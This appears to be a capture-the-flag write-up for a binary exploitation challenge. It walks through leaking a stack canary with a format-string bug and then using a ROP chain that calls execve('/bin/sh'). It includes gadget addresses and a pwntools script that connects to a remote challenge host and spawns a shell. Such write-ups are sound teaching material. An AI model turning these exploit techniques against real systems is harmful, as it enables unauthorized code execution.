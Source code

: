 # Preliminary Reconnaissance

It seems that there are two input fields, the first one to take in up to 50 characters and the second to take in up to 6 characters. The `gets` functions used are vulnerable to buffer overflow attacks, while the `printf()` used is vulnerable to the format string bug, specifically found on line 21. Additionally, the file has NX (No eXecute) protection enabled.

Given these conditions, our approach will be:
1. **Leaking the stack canary** using the format string vulnerability.
2. **Bypassing the stack canary** and using a ROP (Return-Oriented Programming) chain to spawn a shell.

## Part 1: Beating the Canary

When two input fields exist alongside a stack canary, the first input field is typically used to leak the canary. Using the format string vulnerability, we can repeatedly print memory addresses with `%s` or `%p` to locate the canary's offset and extract its value.

If performed correctly, we find that the **canary offset is 16** (for this input field). We also need to determine the canary offset for the second input field to bypass the canary detector.

Using binary search, we find that **to bypass the canary check**, we need to input:
- **62 'A's**
- **Followed by the leaked canary value** (at position 15 in the leaked memory values)
- **Then 8 'B's** (to move from RBP to RIP)

### Exploit for Canary Extraction
```python
print(p.recv().decode())
p.sendline(b'%15$p')
print(p.recvuntil('Earth, I,').decode())
canary = int(p.recvuntil('Imaginary Technique: ').split()[0], 16)
print(canary)
payload = b'A'*62 + p64(canary) + b'B' * 8
```

## Part 2: ROP Exploit

Since there are no other exploitable functions, we assume this is a **ROP2SHELL challenge**.

### Step 1: Finding ROP Gadgets
Using **ROPgadget**, we identify key instructions required to build our payload:
```assembly
pop rax; ret --> 0x00000000004500f7
pop rdx; ret --> 0x000000000048618b  # WARNING: Assign RBX a value
mov qword ptr [rax], rdx; ret --> 0x000000000048e1f8  # WARNING: Assign RBX a value
pop rdi; ret --> 0x00000000004020af
pop rsi; ret --> 0x000000000040a11e
syscall; ret --> 0x0000000000401e64
```

### Step 2: Constructing the ROP Chain
```python
rop = b''

# Set RAX to writable memory address
rop += pop_rax
rop += p64(0x4c9000)

# Set RDX to "/bin/sh\x00"
rop += pop_rdx
rop += b'/bin/sh\x00'
rop += p64(0x0) # Assign RBX a value to avoid stack errors

# Write the string into memory at [RAX]
rop += mov_instr
rop += p64(0x0) # Assign RBX a value to avoid stack errors

# Set RAX to execve syscall number (59)
rop += pop_rax
rop += p64(0x3b)

# Set RDI to address of "/bin/sh"
rop += pop_rdi
rop += p64(0x4c9000)

# Set RDX to 0 (NULL)
rop += pop_rdx
rop += p64(0x0)
rop += p64(0x0) # Assign RBX a value

# Set RSI to 0 (NULL)
rop += pop_rsi
rop += p64(0x0)

# Trigger syscall
rop += syscall_instr
```

## Final Exploit Script
```python
from pwn import *

# Start the remote connection
p = remote('34.142.181.57', 8011)

# Extract the canary
print(p.recv().decode())
p.sendline(b'%15$p')
print(p.recvuntil('Earth, I,').decode())
canary = int(p.recvuntil('Imaginary Technique: ').split()[0], 16)
print(canary)

# Construct the payload
payload = b'A'*62 + p64(canary) + b'B' * 8

# Send the exploit
p.sendline(payload + rop)
p.interactive()
p.close()
```